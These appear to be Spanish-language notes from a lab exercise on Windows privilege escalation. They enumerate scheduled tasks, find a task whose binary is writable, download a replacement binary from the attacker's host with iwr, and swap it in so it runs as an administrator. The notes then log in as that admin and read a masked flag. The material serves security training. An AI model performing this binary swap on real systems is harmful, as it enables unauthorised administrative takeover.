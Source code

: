 # Walk: Windows Privilege Escalation - Scheduled Tasks - VM #1

## Fecha: 10/03/2025
## Host: Windows
## IP: 192.168.105.220
## Objetivo
Follow the steps from this section on _CLIENTWK220_ (VM #1) to exploit the scheduled task _CacheCleanup_ by replacing the binary specified as action. Obtain code execution, an interactive shell, or access to the GUI as administrative user and find the flag on the desktop of _daveadmin_.
## Herramientas
1. schtasks
2. [Get-ScheduledTask](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtask?view=windowsserver2022-ps)
## Procedimiento y comandos
#### Paso 1: Enumeracion de Tareas Programadas
1. Una vez conectados por _rdp_ enumeramos tareas:
	- `schtasks /query /fo LIST /v`
```
...
Folder: \Microsoft
HostName: CLIENTWK220
TaskName: \Microsoft\CacheCleanup
Next Run Time: 7/11/2022 2:47:21 AM
Status: Ready
Logon Mode: Interactive/Background
Last Run Time: 7/11/2022 2:46:22 AM
Last Result: 0
Author: CLIENTWK220\daveadmin
Task To Run: C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In: C:\Users\steve\Pictures
Comment: N/A
Scheduled Task State: Enabled
Idle Time: Disabled
Power Management: Stop On Battery Mode
Run As User: daveadmin
Delete Task If Not Rescheduled: Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule: Scheduling data is not available in this format.
Schedule Type: One Time Only, Minute
Start Time: 7:37:21 AM
Start Date: 7/4/2022
...
```
2. Verificamos permisos: 
	- `icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe`
```
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
CLIENTWK220\steve:(I)(F)
CLIENTWK220\offsec:(I)(F)
```
> Tenemos permisos mas que suficientes para ejecutar la tarea 

#### Paso 2: Ejecutamos la tarea maliciosa
1. Servimos con python el mismo ejecutable que cambia todos los passwords pero esta vez cambiamos el nombre por la tarea esperada
```
PS C:\Users\steve> iwr -Uri http://MI_IP/BackendCacheCleanup.exe -Outfile BackendCacheCleanup.exe
PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\
```
> Una vez hecho esto la tarea se ejecuta cada un minuto | **Next Run Time: 7/11/2022 2:47:21 AM  |  Last Run Time: 7/11/2022 2:46:22 AM**

#### Paso 3: Obtenemos el flag
1. Nos logeamos con run as como _daveasmin_
```
PS C:\Users\steve> runas /user:daveadmin cmd
Enter the password for daveadmin: password123!
```
2. Buscamos en Desktop: 
```
C:\Windows\System32>cd C:\Users\daveadmin\Desktop
C:\Users\daveadmin\Desktop>type flag.txt
OS{ae50b**************************f03c1}
```
